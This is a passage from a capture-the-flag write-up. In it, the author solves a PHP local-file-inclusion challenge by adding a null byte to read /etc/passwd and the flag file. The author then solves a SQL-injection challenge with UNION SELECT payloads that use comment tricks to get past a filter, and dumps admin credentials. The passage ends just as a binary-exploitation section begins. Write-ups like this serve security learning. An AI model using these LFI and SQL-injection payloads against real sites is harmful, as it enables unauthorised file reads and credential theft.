 So I visited `http://jh2i.com:50010/?page=hello` and it gave me an error saying ``Sorry, `hello.php` does not exist.``.

If you visit `http://jh2i.com:50010/?page=flag.txt`, you get ``Sorry, `flag.txt.php` does not exist.`` and if you visit `http://jh2i.com:50010/?page=flag`, you learn that ``The flag is at `/flag.txt`.``

After some googleing, I learned that I can access files without the `.php` extensions on the machine by adding a `%00` (null) byte at the end and PHP interprets this as the end of the string and ignores the `.php` that is appended. We can access `/etc/passwd` by visiting `http://jh2i.com:50010/?page=/etc/passwd%00`.

With this in mind, we can read `/flag.txt` by visiting `http://jh2i.com:50010/?page=/flag.txt%00`.

Flag: flag{lfi_just_needed_a_null_byte}

### Waffle Land

> We got hacked, but our waffles are now safe after we mitigated the vulnerability.

This one was worth 150 points and there is one provided website for us to check out.

> http://jh2i.com:50024

For some reason, this one hit me very quickly, SQL injection!  

That search box just looks vulnerable and sure enough when we put a single quote in, the entire thing blows up and we get an error message...

```
Bad Request
(sqlite3.OperationalError) unrecognized token: "'"
[SQL: select * from product where name like '%'%']
(Background on this error at: http://sqlalche.me/e/13/e3q8)
```

After fiddling around a bit, I noticed that entering `'/**/union/**/select 1,name,tbl_name,sql,5/**/from sqlite_master;--` into the search box unioned the name of the tables at the bottom of the page. The users table seems interesting so I decided to view its contents using `'/**/union/**/select 1,username,password,4,5/**/from user;--`. we then get the credentials for the admin user!

```
Username: admin
Password: NT7b#ed4$J?eZ#m_
```

With this we can sign in with the button at the top right of the page and get the flag!

Flag: flag{check_your_WAF_rules}

## Binary Exploitation

### Pancakes

> How many flap-jacks are on your stack?

This was the only binary exploitation that I was able to solve during the CTF. There is an ip and port that we can use netcat to connect to as well as a binary that we can download, run and disassemble.
